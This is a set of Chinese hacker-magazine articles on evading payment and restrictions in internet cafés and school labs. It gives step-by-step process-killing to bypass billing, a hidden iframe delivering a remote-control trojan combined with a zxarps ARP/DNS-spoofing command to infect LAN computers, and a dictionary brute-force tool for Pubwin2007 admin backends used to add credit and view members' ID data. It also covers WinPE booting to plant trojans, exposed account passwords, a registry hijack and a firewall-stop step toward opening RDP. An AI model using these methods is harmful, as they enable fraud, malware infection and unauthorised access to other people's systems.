打开system32文件夹，尝试直接删除Cprotect.dll，结果自然是失败了。返回到Wsyscheck中，按照顺序，依次结束smss.exe、winlogon.exe、CCMClientNt.exe的进程。千万要注意，顺序不能搞错了，否则就会自动重启。三个进程结束后，返回到system32文件夹，将图1中框起来的文件全部删除掉，然后到老师那里刷卡下机，再返回来就可以免费上网了。

在测试过程中，我发现这种方法有时会上不去网，只需要断开网络连接再重连一下就行了。另外，在结束掉上述三个进程后的桌面可能会变得很难看，这时重新设置一下主题就解决了。为了方便大家的使用，我编写了一个批处理文件，直接双击运行就可以了。（文章中涉及到的Wsyscheck以及KillCCM.bat已经收录在了光盘中）

# 为了逃费，通杀机房管理系统


多年来与各种机房、网吧管理系统打交道，我逐渐总结出了一套通杀大多数管理系统进行逃费上网的方法。虽然我从没有逃费上网（为了区区几块钱，万一被网管抓住了，那可是好丢人的），但是这并不妨碍我们对这种技术的研究。我发现机房管理系统与木马有着惊人的相似之处，而且很多机房管理系统也都有简单的远控功能，所以我在破解过程中也经常会用到查杀木马的思路与工具。

下面我们就来简单分析一下。机房管理系统一般都有一个主进程负责与管理主机进行通信，我们关闭掉所有的网络软件后，便会在冰刃中清楚地发现它了，如图1。当然细心的朋友也会发现，有些管理系统也会有dll插入到各个进程中，但是它们一般不会像木马那样具有通信作用，所以大家不必在意。

当我们结束了这个主进程后，通信终止了，管理主机上一定会显示我们这台电脑已经关机，因为正常状态下只有已关机的电脑才会终止通信。理论上机房管理系统的程序此时已经不再运行了，这时我们刷卡退出，便可以继续返回到座位上免费玩电脑了。

可能出现两种情况：

- 1. 主进程会重新启动；
- 2. 计算机强行关机。

对于第一种情况，有的是守护进程重启了它（是不是很像某些木马呢？），我们可以使用冰刃轻松地同时结束掉主进程与守护进程（按住Ctrl，就像选择文件一样，把它们全部选上，然后点右键，选择结束进程就行了）。有的是系统的服务启动了它，我们可以先添加一个映像劫持，然后再结束进程。对于第二种情况，幸好大多数管理系统都是使用的操作系统层面上的关机。我们使用冰刃依次结束smss.exe和winlogon.exe进程（注意顺序不要搞错了），这时我们再试一下，不论是开始菜单里的关机还是shutdown命令都不起作用了。好了，我们结束了这两个进程，然后再去结束管理系统的主进程，此时就不会关机了。


图1

既然我们已经有了通杀的思路，那接下来就到某个网吧中做个小小的练习吧。我们先正常登录，发现登录界面是pubwin4，打开冰刃，首先结束smss和winlogon进程以防止关机，然后再看一下pubwin的进程，呵呵，客户端的进程还真不少……于是使用冰刃统统都结束掉，如图2。


图2

看到这儿，可能大家要问了：pubwin4是很久以前的东西了，搞掉它也不能说明什么。那好，现在我就带大家搞一下价值过万、自称无人能破解的“万欣机房管理系统”。我不得不承认这款系统非常强大，生搬硬套上面的方法显然行不通……

后来我发现了一个小小的bug，在cmd下使用 `shutdown -l` 命令也可以注销客户端，用户可以刷卡退出，但是此时电脑不会关机，而是Windows用户被注销从而停留在了待登录状态……

先执行 `shutdown -l` 命令注销，然后重新登录Windows，结束进程smss，此时系统会在毫无征兆的情况下突然关机（就像突然停电了一样）……可见我们上述的通杀并没有从根本上被限制……

在正常的状态下结束smss，然后执行 `shutdown -l` 命令注销，重新登录后以最快的速度结束进程winlogon和客户端进程CCMClientNT，然后再刷卡退出，此时电脑照旧运行，我们便可以尽情地上网了，破解完成。

如果你的电脑由于客观原因限制了上述方法的使用，我们还可以用另外一种变通的方法：先正常登录客户端，结束smss和winlogon，然后使用客户端提供的注销功能进行注销……最后用冰刃把它的源文件用explorer.exe替换掉，至此破解就成功了。

但是官方已经制作出了补丁，彻底限制了我们的这种通杀方法……理论上这套通杀方法适用于所有在系统层面上强行关机或者不采取关机策略的客户端。当然每个系统都有各自的特点，有时生搬硬套是不行的，还需要大家因地制宜地变通才行。

（文章中所用到的冰刃已收录到光盘中）

# 恶作剧搞定局域网全部电脑


杨金晓

今天我要给小菜们介绍一种简单的方法，可以轻松地让局域网中的电脑全都成为你的肉鸡，不用什么漏洞，也不用什么0day，只需要几个小软件就可以搞定。

许多小菜都经常去学校机房或网吧上网，这两个地方可是我们搞到肉鸡的最好地方……并且所有的电脑几乎都采用相同的设置，这样我们的木马不需要免杀，我们的工具也不会被阻挡在防火墙外面了。

页保存下来，注意保存的文件名和文件类型，如图1。


运行逍遥迷你ASP服务器V1.2，点击“浏览”按钮找到刚才保存的文件目录，确定后点击“启动服务”，如图2；此时浏览器地址栏显示 http://127.0.0.1，说明Web服务已架设成功，如图3。


接下来打开远控木马程序，配置生成服务端并上传到空间，记下木马地址；也可直接放在Web目录下。使用记事本打开 `index.htm`，在 `</body>` 前加入以下代码。

```html
<iframe src=http://192.168.10.123/激情视频永久访问地址.exe width=0 height=0></iframe>
```

准备工具zarp（需先安装WinPcap），在CMD中运行zarp，使用其DNS欺骗功能执行如下命令。

```bash
zxarps.exe -ldx 0 -ip 192.168.10.25-192.168.10.27 -hackdns "www.hao123.com|192.168.10.123"
```

在被攻击主机访问 `www.hao123.com` 后会弹出对话框（图4）；再看本机zarp反馈（图5），说明欺骗成功。注意不要把网关IP包含在目标IP段中。


同样可写入另一段代码：

```html
<script>alert("亭亭 I love you !__by 杨金晓")</script>
```

只要修改投放端IP地址，就可实现定向弹窗（图6）。最后总结：zarp可对指定IP段访问的网站注入框架代码；本文方法主要利用ARP欺骗，木马地址最好做URL编码。


> （文中涉及到的逍遥迷你ASP服务器V1.2、zxarp等，已收录在了光盘中）

# 幻学破解启明——先做作

这个学期，学校把机房电脑重装系统并做了严格限制：使用硬盘保护系统、禁用USB、默认登录为student用户、任务管理器被禁用、注册表无权修改，并限制了若干程序运行（如QQ、游戏安装包等）。

机房环境使用起来不便，于是决定自己动手寻找“自由”。先尝试新建管理员用户，系统提示拒绝访问，应是默认登录账户权限不足。


student 用户没有权限来执行这样的操作，就连 tasklist、ntsd 等命令也没有权限运行，如图2。我又心想，既然本地文件没有权限执行，那我就从网上下载回来使用，可偏偏连外网也都上不了。要想上网，就必须听完老师讲的课，做完作业，然后使用学校提供的程序改卷，这样才能开通网络。

没有权限，继续闲逛着，无意间发现了一个和 taskkill 文件名非常相似的 tskill.exe 文件。我心想这会不会是老师改了名字的 taskkill 呢？在 cmd 下使用 taskkill 的命令格式运行了一下 tskill.exe，结果提示说没有找到进程。我又执行“tskill /?”查看了一下，不太明白，但应该不是 taskkill。于是我到网上搜索了一下，了解到这是一个系统命令程序，结束进程时不用加 .exe。我重新试了一次，成功地结束了 gj.exe 的进程，现在我终于可以做到开机就能自己连接网络了。


我打开了改卷程序，如果我们的作业全做对了，就会跳出一个 cmd 窗口，标题是 netsh，没有明文命令。我到网上搜索了一下，netsh 应该是一个修改 DNS 服务器的命令，于是我开始着手破解这个程序。改卷程序的图标是 VB 的默认图标，所以我想到了使用 vbexplorer 载入程序。载入后首先查看字符串，结果直接看到了 Command1.click 下的一串字符“netsh int ip set dns 本地连接 static 222.172.200.68 primary”，这个就应该是打开网络的命令了，如图3。于是我等到上课的时候就试了一下，结果成功地连线上了网络，但是没过几分钟，电脑就自动重启了。没想到老师还留了一手，我猜想这应该是利用了一个程序来检查网络连通情况，如果连通了就执行重启命令。但是为什么老师的改卷程序在开通网络后电脑就不会重启呢？有可能是结束了那个检查网络的程序吧。于是我开始查找那个用来检查网络的程序，结果在启动文件夹里找到了一个名为 gj.exe 的 VB 程序。

在连接网络后我双击运行 gj.exe，电脑果然重启了。那么老师的改卷程序又是怎样结束 gj.exe 的呢？taskkill、ntsd 等命令都没有执行的权限，无奈之下我只好在 system32 目录下闲逛，验证了 taskkill.exe、tasklist.exe、ntsd.exe 命令，都没有执行权限。

文章最后，我再介绍一个逃脱控制的好方法，既不会被老师控制，老师那里也不会显示你离线，而且还可以脱离老师的监视。可能有的小菜已经想到了吧，那就是利用强大的“追影虚拟桌面”。开机并且已执行连通网络的命令后，下载“追影虚拟桌面”，运行以后按下 Ctrl+L 隐藏界面，然后按 Ctrl+左（或者“下”“右”）跳到虚拟桌面上。这样老师在广播的时候我们那里就不会被锁屏，就可以继续自由活动了。要想听课的话按 Ctrl+上就可以了，但是必须要等老师结束广播以后才能自由活动。

> （文章中所用到的“追影虚拟桌面”已收录到光盘中）

# 轻松突破网吧隐藏磁盘限制

前些日子到网吧上网，想下载几首歌到自己的手机上，可是插入读卡器后，双击打开“我的电脑”，却发现找不到可移动磁盘的盘符，如图1所示。我本以为是自己的读卡器或者内存卡长时间不使用坏掉了呢，可是后来回到家后却发现在自己的电脑上可以正常使用，而且在别的网吧也都能正常地使用这个读卡器和内存卡，这足以说明它们并没有问题。几天后我又来到了那家网吧，插上读卡器后发现还是那样的情况。


于是我仔细地检查了一下，发现桌面右下角的系统托盘中有新增硬件的图标，而且读卡器的灯也是亮着的，如图2所示。这就说明该网吧中的电脑也能够识别出这个新增的硬件，那会不会是网吧禁用了可移动磁盘呢？

我按下了 Win+R 键调出了 Windows 运行栏，当然我们也可以依次点击“开始”→“运行(R)”调出运行栏，输入 `diskmgmt.msc` 并回车，系统弹出磁盘管理器并列出所有磁盘信息。


在磁盘管理器中可看到比“我的电脑”里更多盘符，发现多出的 F 盘后可通过右键菜单“打开”访问，进而确认其为内存卡相关内容。

# 网吧黑客


## 美网 1433 端口 我也能 Pubwin2007 加钱


## 一、事情的起因

作者叙述因上网资金不足，尝试寻找 Pubwin 相关突破方法，搜索过程中遇到不可靠信息后，转而自行研究并开始探索 Pubwin2007 加钱方法。

## 二、努力得到结果

经过研究，得到一个可用于 Pubwin2007 的后台口令工具。运行后出现登录窗口，输入示例用户名与密码即可登录，并展示程序主界面。


首先寻找 Pubwin 主机地址，文中给出两种方式：使用抓包工具监控进程，或使用“网吧幽灵4.1”查看主机 IP。


- 使用 Winsock 抓包工具监控 Pubwin2007 进程，定位主机 IP。
- 使用“网吧幽灵4.1”查看主机信息中的主机 IP。

# 网吧黑客


图4

用户名和密码登录的，“卡号”就填写自己的卡号，“数目”也就是需要加钱的多少，至于“定时方式”和“充值方式”就是选择充值方式是现金还是时间，这一会儿我会具体说到的。“用户名字典”和“密码词典”就是选择使用的用户名和密码词典的路径，程序运行的时候会自动释放到 C 盘，这个也可以自己选择。

点击“破解”按钮后，就会出现一个提示，我们点击“是”就可以了，如图5。程序会自动猜测用户名和密码，我们只要双击程序界面黑色的地方，让它最小化到系统托盘区就行了。现在我们就可以聊会儿天或是干点儿别的，过一会儿后在系统托盘那里点击左键，程序界面就又出来了，用户名和密码已经猜解出来了，如图6所示。


图7

如图7。大家看，页面给出的提示是有访问限制，有时也可能是什么网吧资讯或者管理页面什么的，我们不用管它。然后输入自己的卡号，点击“打开加钱地址”，右边就会出现一个加钱的窗口了，在“追加预存款”那里填写需要加钱的数目；然后点击“确定”就行了，如图8。有时候我们点击“一键打开后台地址”，但是在右边的窗口中出现一个登录页面，上面有小红字写着“IP 地址没有登记”，对于这种情况，我们可以不用理它，直接点击“打开加钱地址”后就会看到如上图所示的界面，然后就可以进行加钱操作了。除了以上这两种情况外，其他的限制我们都不能加上钱。


图5


图8


图6


图9

这时候可能有小菜要问了，为什么后面会有乱码出现呢？我可以很负责任地告诉你，那就是空密码的意思。接下来我们就可以使用 001 这个账号登录了，在“用户名”处填写 001，然后点击“一键打开后台地址”，在右边的窗口中就会出现一个页面。

“进入管理视图”就是进入到后台管理区，可以对一些用户进行简单操作，比如查看网吧所有用户的消费情况，还能查看身份证号等；在“客户机视图”中，我们选择一个后就可以进行许多基本的远程操作，比如执行文件、关机重启、远程监视屏幕等，如图9。而“会员管理页面”可以对网吧会员进行基本的操作。

操作，比如修改密码什么的，还能修改积分。这个也是好东西，所谓积分就是会员往里面加钱所积累的点数。我们这里的网吧有“普通会员”“优惠会员”“铜牌会员”“银牌会员”“金牌会员”“钻石会员”这几种，其中普通会员是最贵的，钻石会员是最便宜的，每年还能有小礼物呢。我有一次就把自己修改成了钻石会员，又修改了入会时间，结果我上网的时候，他们还送给我一个精美小手电呢。“单个测试”就是在用户名和密码猜测不出来的情况下，填写自己社工出的用户名和密码自行猜测，没准儿就会成功哦。“一键充值”是为了方便那些经常到一家网吧而且还能成功加钱的人，在用户名和密码处填写正确的用户名和密码、卡号、数目、定时方式、充值方式后点击“一键充值”就能省去许多繁琐的步骤了。那个“定时方式”决定是会员还是普通用户，“充值方式”就是决定是以现金充值还是以时间充值的。

还是没有弄明白，就是给会员充值，只有猜测到 admin 或者其他的超级管理员用户时才能给会员加钱，一些 001 之类的普通管理账号是不行的。我研究了好长时间也没啥进展，一直在想要是能使用 001 这类普通管理账号加会员就好了。又因为最近学习比较紧张，所以就没空再解决，一直搞不到那个会员加钱地址。在这里还希望各位顺手能够共同研究解决一下，在此我把程序代码也一并奉上了。

## 三、工具制作过程中遇到的困难和疑惑

在制作软件的过程中，我解决了许多限制，但是有一点儿……

## 四、总结

这个小工具的技术含量并不高，说白了就是依靠用户名和密码字典来自动猜测管理员的用户名和密码，然后就可以进行加钱等操作了。如果猜测不出来的话那只能怪 RP 不好了，一般的网吧都能猜出来的。最后再提醒一下大家，不要使用这个工具来作坏事哟，更不要想着花 2 块钱上机下机找你 18 元的那种事，因为我的一个朋友就这样被狠狠地扁了一顿。

（文章中所用到的 WinSockExpert6、幽灵网吧辅助工具 v4.1、pubwin2007 扫 web 后台密码工具源码已收录到光盘中）


## 免费上网 先识破网管的小把戏吧！

这天在路过一个名叫**风暴**的网吧时突然网瘾上来了，于是就准备上会儿网。可是摸了下口袋，发现全身上下只有 2 块钱，没办法，我只有玩免费上网的游戏了。直接使用那 2 块钱开了台电脑，上网搜索以前曾在《文档案》上介绍过的万象幽灵 2009，然后下载。很快地，万象幽灵 2009 就下载好了。我查看了一下这家网吧的收费系统（具体的操作就是右键点击万象的那个系统托盘图标，选择“设置”→“系统设置”），如图1所示，原来使用的是比较老的万象 2004 的版本。我迫不及待地打开万象幽灵 2009，点击其中的“秒杀万象”，然后输入 1 后回车，再按了下回车。几秒钟后，我还以为破解成功了呢，可是鼠标就是动不了，无奈只好重启了电脑……

还有个版本号 2.1.1.1 什么的，进入系统后我再次点击了万象的图标，在点击了最上面的那个“关于”后，猫腻终于出来了，如图2所示。这时我终于看明白了，万象 2004 根本就没有这个版本，这个 2.1.1.1 貌似是万象 2006 的版本号。于是我重新打开了万象幽灵 2009，再次点击那个“秒杀万象”，输入 2 后回车，再随便敲一下键盘，哈哈，系统开始自动注销了。接着那个假的万象 2004 的登录界面就出来了，不用管它，直接点击下面的管理，回车后我就进入桌面了。哈哈，破解成功，终于可以免费地一直玩下去了。


第一次破解就这样失败了，明明是万象 2004 可为什么就是破解不了呢？难道是我看错了，还是别的原因？这次开机时我更加仔细地看了下，还是一个万象 2004 的界面一闪而过，上面……

这个网管也真是的，费尽心机地把万象 2006 伪装成了万象 2004，不过最终在我面前还是现了形。当然，我也曾遇到过把万象 2008 伪装成万象 2004 的情况，只要大家在开机时趁万象的收费系统还在启动时注意这点，就能看出来这是什么收费系统了。一般 2.1.* 之类的就是万象 2004，而 3.0.* 之类的就是万象 2008，这个很好判断的。

另外还有一点需要大家注意，虽然我们破解了收费系统，可如果我们的卡上还有钱的话也是会收费的，所以我们还需要给那张卡结账才行。好了，本文到此就结束了，每次都要下载万象幽灵 2009 实在是太麻烦了，所以我就把那个“秒杀万象.exe”给提取了出来，以方便大家快速下载使用，如图3、图4所示。


（文章中所用到的秒杀万象.exe已收录到光盘中）

# 菜鸟快乐网吧行


好久没有去网吧 happy 了，这天听一同学说某网吧中的净网先锋既弹广告又下木马，辛辛苦苦玩的游戏号被“挖”得一丝不挂，着实让人心里感觉有些不平衡……于是就借周末去“探索”了一番！

通用性依然很强，使用范围主要是在网吧。网吧中通常使用的都是 XP 系统，很少碰到使用 Vista 或 Windows 7 系统的。即使是在 Vista 系统中，也可以使用该方法，只是操作相对复杂了一些而已。

## 一、进一步排查进程——让净网先锋不再耍流氓

付款上机，网吧中使用的是深度的 Ghost 版 Windows XP 系统，第三方管理软件使用的是 PubWin2007+净网先锋，如图1所示。一开机，净网先锋就弹出了广告，使用 360 安全卫士扫描内存，并未发现有盗号木马……

| 热门帖/主题（截图） | 相关信息 |
|---|---|
| 净网先锋弹广告，官方人员查X难道就没人管吗？ | IP/回复等 |
| 我很恨这个软件，净网先锋 | IP/回复等 |
| 净网先锋制作组我真诚地怀抱这十八代 | IP/回复等 |
| 大家来投票，对净网先锋强制安装广告收取利润 | IP/回复等 |

（由网页论坛列表截图构成）


还是使用老办法，通过提升 explorer.exe 外壳程序的权限为 system 权限来突破常规的网吧限制……先来搞定这个净网先锋，让它不弹广告，卷铺盖滚出系统！

我们在“开始”→“运行”栏中输入 cmd.exe 打开命令提示符，准备好 mt.exe，按 Ctrl+Alt+Delete 键打开任务管理器，结束掉 explorer.exe 的进程……


然后在 cmd 下执行 `mt -su explorer.exe`，等待 shell 运行。这时就会发现托盘区已经没有净网先锋的图标了，如图3所示。继续执行 `dir /s /a mainpro.exe` 查找净网先锋主程序的文件位置，mainpro.exe 是净网先锋的主进程文件名，结果发现是在 system32 文件夹下。执行 `del /f mainpro.exe` 删除时却提示“拒绝访问”，执行 `cacls mainpro.exe` 命令查看该文件的访问权限，发现当前用户有“完全控制”权限，如图4所示。看来没有了图标并不能代表进程已经结束了，这也纠正了我个人的一个误区：原来 Windows 的外壳程序 explorer.exe 在创建进程时，创建的都是与 explorer.exe 无父子关系的进程，也就是说 explorer.exe 创建的进程都是独立于 explorer.exe 进程的，结束 explorer.exe 并不能结束掉所有由它创建的进程。查看任务管理器中的确存在 mainpro.exe 的进程，结束后进程立刻重建了。看来提升权限只是治标不能治本啊！我到百度上搜索了一下，原来网上还有一种净网卸载器，下载后运行，净网先锋再次运行了。看来想通过工具“偷懒”也没那么容易，还是伟大的毛主席说得好——“自己动手，丰衣足食”！

`process explorer.exe`，双击运行程序后，界面一闪而过，这是有系统的敏感字符检查所导致的，这种现象在各大网吧已屡见不鲜。改改程序文件名就能避开检测了，修改程序名为 test.exe，这回成功地运行了程序，将 mainpro.exe 进程结束掉，净网先锋再次运行了。看来应该是有外部进程创建，下载 syscheck.exe，选择 mainpro.exe 进程，然后勾选“禁止外部线程创建”，如图5所示。结果 syscheck 检测到 mainpro.exe 由 xclient.exe 创建，而且很快系统因为大量线程创建而导致了死机，运气看来不怎么好。强烈建议大家在网吧中进行“居心叵测”性操作时，一定要带着 U 盘，将需要的工具及时保存，以防止重启后的重复操作。

关于 xclient.exe 这个程序，网上给出的说明大模棱两可，我们暂且不管它是做什么的。既然知道了父进程是 xclient，那么最好的方法就是直接杀死它，但这种方法很快就被操作失败所否定了。这时我眼前突然一亮，如果我们直接使用 process explorer.exe 挂起 mainpro.exe 的进程，那么 mainpro.exe 就无法做任何事情，这和卸载净网先锋应该是有相同的效果，而且一般我们在网吧玩的时间也不会太久，所以这应该算是一种比较“经济”的方法了。当然如果我们能挂起 mainpro.exe，那么就也可以挂起其父进程 xclient.exe。挂起 xclient.exe 后，它就无法创建 mainpro.exe 进程了，这样我们就可以先结束 mainpro.exe 然后再删除它。使用 process explorer.exe 挂起 xclient.exe 的进程，如图6所示，然后结束 mainpro.exe，再使用 del 命令成功删除了净网先锋，如图7所示。现在总算是让净网先锋不再耍流氓了，这里也提供给大家一种新的处理进程外部创建线程的方法：先挂起父进程，然后结束子进程。看来很多时候很多事情和做人一样，不能太偏激，使用折中的方法往往会事半功倍的！


图4


图5


图6


图7

废话不多说了，直接抄家伙，下载进程管理利器——

## 二、对MaxDos的思考

我在开机时还注意到有个 MaxDos（MaxDos 主要就是为安装好的 Windows 2000/XP/Vista 等加入 DOS 系统）的选项，后来分析测试了一下，发现这里面的道道还真不少，大家且听我娓娓道来。

### 1、MaxDos 的安全问题

MaxDos 相信大家都非常熟悉了，该网吧使用的是 7.1 的版本，记得以前 5.5 版本的密码是可以破解的，但是 7.1 版本虽然使用的是 MD5 加密，但却不是标准的 MD5 加密算法，所以想通过 MD5 网站比对密码散列是不可能的。如图 8 所示就是该网吧的 MaxDos 文件夹，其中的 maxkr 文件即为 MaxDos 的密码文件，使用记事本打开后如图 9 所示。

MaxDos 的安全问题主要体现在密码的安全性上，对于 MaxDos 的密码破解有两种常规方法：

- 1. MaxDos 弱口令问题。管理员为了使用方便，有时会设置一些弱口令，有的甚至可能与 Windows 登录密码一致，或者是一些非常简单的数字密码，这就给了我们反击网吧限制的机会。
- 2. MaxDos 7.1 的密码文件可以被清空，因此可以先破解网吧的还原系统，然后再清空 MaxDos 密码文件中的内容。

针对这两种常见的安全缺陷，我们一是可以通过测试弱口令来确定密码，还可以先通过 MaxDos 生成可能的密码散列值，然后再通过比对散列值以确定密码；其二就是通过其他方法搞定还原系统，再利用密码替换来实现密码的破解。

我在自己的电脑上测试第二种方法获得了成功，即 MaxDos 7.1 的密码散列文件确实是可以被清空的。对于第一种方法，我想这完全在于你对当前环境的弱口令收集，比如我所在的网吧就提供了网吧维护者的手机号，有了手机号要怎么做就要看个人智商的问题了。

### 2、由 MaxDos 想起的新型网吧玩法

MaxDos 充其量只能算是一个网吧维护工具，它提供了一种独立于 Windows 操作系统的网吧玩法，而且前一段来说我们比较喜欢 WinPE 系统。简单地说，WinPE 就是一个可以简单运行于 U 盘、光盘上的小型 Windows 系统，只需要有一个 U 盘，将 WinPE 装入其中，在网吧中通过 U 盘来启动 WinPE 系统，然后就可以进行各种限制的突破了。

别说是一个净网先锋，就是把系统内核文件全删了都行，这要比破解 MaxDos 密码简单有效得多。但是这种方法也存在局限性：一是必须要有硬件支持 U 盘启动；二是你可以进入 BIOS。一般来说网吧电脑的 BIOS 密码要么是默认的，要么就是简单的变形，也有设置得很难破解的，这也要看你的运气了。

我们需要的工具就是 flashboot + Mini WinPE 镜像，具体的操作如下：运行 flashboot，选择“转换 BartPE 的启动盘到闪盘上”，下一步就是选择 PE 镜像文件。之后建议使用 Mini PE，因为它比一般 Ghost 版 Windows 操作系统中的 PE 要小，执行效率高，速度快。接下来选择 U 盘盘符和 U 盘格式化类型，有 USB-HDD 和 USB-ZIP 两种类型，ZIP 兼容性好，一般可以先选择 ZIP，如果选择 ZIP 不能引导那就使用 USB-HDD，选择好后就会自动生成启动 U 盘了。

来到网吧中，先搞定 BIOS 密码，然后进入 BIOS，将启动顺序设置为“Removable Devices”，这样就可以从 U 盘启动 WinPE 了。曾几何时，为了在网吧的电脑中放上阿拉 QQ 大盗，不惜花时间去破解还原系统。有了这种方法后，我们可以修改 Windows 启动时所加载的项目，你想放多少木马都可以，如果挂上个网页木马，那就更快乐了。

综上所述，不管是从 MaxDos 下手还是从 WinPE 入手，问题的关键都是密码，因此我们很有必要努力学习一下关于密码的一些东西。

## 三、注册引发的密码之争

这部分主要是想澄清过去的一个思路，很久以来我一直认为只要是自动登录，那么用户的登录密码就一定在注册表中，使……用它们就可以进行注销登录以及通过 Logon session 缺陷来攻击其他客户机。不过，这次我上网的网吧中显然杜绝了这种方法。首先我想通过注销的方法来实现所有限制的突破，在以前的文章中我曾提到一款克星之王的工具，但是当我运行该软件时却显示了如图 10 所示的错误……这说明不是程序本身的问题，而应该是管理软件所导致的，既然此路不通只好再换条路了。

我们可以通过提升权限或者使用金山毒霸来将其修复，如图 12 所示……使用第三种方法进行注销登录时，输入自动登录的用户名和密码会无法登录（如何获取自动登录的用户名与密码，我将会在下面进行说明），再次重启进入系统，分别查看相应的密码信息，如图 13 所示。

- 1. 使用 PSR 密码查询工具，自动登录的用户名和密码虽然能够找到，但是注意缓存密码为 rzxskj，也就是当前的会话验证是以 rzxskj 作为密码的。
- 2. 在注册表中以及使用 peekpassword 发现的自动登录用户名为 ftkj，密码为 8777858dong。
- 3. 在“开始”→“运行”栏中输入 compmgmt.msc 打开计算机管理，在“本地用户和组”的“用户”中发现只有两个用户。

因为系统只有两个用户，并且其中一个还是禁用的，因此当前登录用户是 rzxskj，密码应该是 rzxskj，而自动登录密码完全是一个无用的信息，使用 rzxskj 用户名和密码 rzxskj 注销后登录成功。

无论何时，用户名和密码都是进行任何其他操作的基础，因此一定要保证用户名及密码的有效性……如果有谁知道的话，还请告诉我。好了，文章就到这里，希望对大家会有所帮助。

（文章中所用到的 ha_processexplorer1201、MT.exe、flashboot+Mini WinPE 镜像、peekpassword、PSR、syscheck(1.0.0.42)、XP 自动登录器等，已经收录到了光盘中）

## 关于桌面两个 IE 图标无法删除的研究

> 火の魂

近日，舍友的电脑桌面上纷纷出现了两个 IE 图标，其中一个是正常的，但另一个却无法删除，右键点击时弹出来的菜单非常诡异，如图 1。最让人受不了的是双击打开后会跳到一个恶意网址“http://www.8ff.net/”。

在右键菜单里居然没有删除这个选项，不过看到右键菜单中有个属性，心里不由激动了一下，希望能从中找出点什么东西，赶紧打开属性。原本以为里面是快捷方式劫持之类的东西，结果不是，跳出来的是 IE 的 Internet 选项，而默认主页却是正常的，如图 2。

自然而然地，我想到了使用粉碎文件来解决，结果 360 的文件粉碎机居然连面都没见就败下阵来。点击添加文件，进入桌面，里面根本就没有 Internet Explorer 这个快捷方式；我又试着将那个快捷方式拖进去，鼠标却显示不可用，使用其他的粉碎机，比如 Unlocker，也都不管用。

看来又遇到硬骨头了，我猜想这有两种可能：一是中了木马病毒，有个进程正在监控着这个快捷方式；另一种可能就是注册表被修改了。于是我打开了 360 和冰刃查看进程，结果没有发现什么问题，看来应该是注册表的问题了。

那么如何寻找被修改的注册表呢？总不至于一个一个地翻吧！突然我想到，可以从那个恶意网址下手啊，既然能够打开那个网址，那么在注册表里就一定有记录。在“开始”-“运行”栏里输入 regedit 打开注册表，按 Ctrl+F 查找所有带 www.8ff.net 字符的项、值和数据，如图 3。很快就在“HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell\Open\Command”这里找到了一个，如图 4。

我马上把“{B1D521BD-BD50-D123-3576-72D12B55633D}”这一整个项都删除，很高兴地返回到桌面上，刷新一看，呵呵，图标变成默认的图标了，而且右键也变了，重点是有了“删除”这个项，如图 5。点击删除，弹出了如图 6 所示的删除确认对话框，当然是点“是”进行删除了。经过检测，已经没有任何遗留问题了。

很快，我就帮舍友们把这个老项目给解决了。不过，仅仅是把这个东西删除掉可不是我们的目的，我们要好好研究一下，看这个东西是如何实现的。于是我就建了一个虚拟机，尝试着在 HKEY_CLASSES_ROOT\CLSID 里面新建一个“{B1D521BD-BD50-D123-3576-72D12B55633D}”项，里面也添加了 Shell\Open\Command 等等项目，期待着有奇迹发生。返回到桌面，刷新一下，让我失望的是什么也没有增加，看来注册表并不仅仅是一个地方被修改了。现在还是那个问题，怎样寻找到其他被修改的地方呢？我再在注册表里搜索 www.8ff.net，没有任何发现，难道就这样放弃吗？

我又想，既然两个注册表项是相互呼应的，那么就应该有一定的关联，会不会是注册表项的名字呢？那名字又会是什么呢？当然是“{B1D521BD-BD50-D123-3576-72D12B55633D}”了。

于是我又在注册表里搜索“{B1D521BD-BD50-D123-3576-72D12B55633D}”，哈哈，果真是这个。我在“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace”里面发现了它的踪迹，不过这里面什么也没有，没有子项，只有一个默认的值，而且是空值，如图 7。

不过我还是尝试了一下，在虚拟机的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace”里添加了一个“{B1D521BD-BD50-D123-3576-72D12B55633D}”项，又满怀希望地返回到桌面测试一下，哈哈，这回终于成功了。我把被修改的注册表项导了出来，其代码如下：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}]
@="Internet Explorer"

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\DefaultIcon]
@="C:\\Program Files\\Internet Explorer\\iexplore.exe,-32528"

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell]
@=""

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell\Open]
@="打开主页(&H)"

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell\Open\Command]
@="\"C:\\Program Files\\Internet Explorer\\iexplore.exe http://www.hackerxfiles.net\""

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell\属性(&R)]
@=""

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\Shell\属性(&R)\Command]
@="Rundll32.exe Shell32.dll,Control_RunDLL inetcpl.cpl"

[HKEY_CLASSES_ROOT\CLSID\{B1D521BD-BD50-D123-3576-72D12B55633D}\ShellFolder]
@=""
"Attributes"=dword:00000010

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Desktop\NameSpace\{B1D521BD-BD50-D123-3576-72D12B55633D}]
@=""
```

后来经过测试，发现项目名称并非一定要是“B1D521BD-BD50-D123-3576-72D12B55633D”，只要长度相同的 16 进制名称都可以（即只能含有 0—9、A—F 的字符串）。这次的探索就到此为止，希望能给广大水友们带来一点启发。

## XP系统之攻开3389

后记

首先我们要打开电脑的 3389 端口，目前绝大多数使用 XP 系统的电脑默认都是关闭这个端口的。在获得对方电脑控制权的情况下，我们有两种方法可以打开 3389。第一种是在“我的电脑”上点右键选择“属性”——“远程”，勾选上“远程桌面”下的“允许远程用户连接到此计算机”就行了，如图 1。

第二种就是在 cmd 命令提示符下，首先使用 **net stop sharedaccess** 命令关闭系统自带的防火墙，然后再输入以下的代码：

```bat
echo Windows Registry Editor Version 5.00>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Ter- ...]
